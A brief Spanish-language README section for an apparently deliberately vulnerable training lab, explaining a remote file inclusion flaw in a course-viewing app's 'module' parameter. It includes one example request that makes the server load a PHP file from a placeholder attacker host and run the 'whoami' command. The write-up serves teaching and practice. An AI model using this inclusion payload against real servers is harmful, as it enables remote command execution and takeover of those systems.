

## 🚨 Remote File Inclusion (LFI-Lab)
- Aplicación vulnerable a inclusión remota de archivos.
- Se trata de una aplicación de visualización de cursos, la vulnerabilidad está presente en el momento en el que el usuario consulta más información acerca de un curso.
- Esta vulnerabilidad es muy crítica ya que un atacante puede incluir archivos maliciosos y por consiguiente, obtener ejecución remota de comandos.

El parámetro **module** empleado a la hora de cargar los cursos es manipulable de forma que podemos incluir un archivo de un servidor remoto.

Si un atacante logra incluir un archivo remoto como este puede llegar a ejecutar comandos en el servidor:



Si posteriormente el atacante hace la siguiente petición GET logra ejecutar el comando **whoami** en el servidor:

```sh
http://{ip_servidor}:{port_servidor}/course.php?module=http://{ip_atacante}/pwned.php&cmd=whoami
```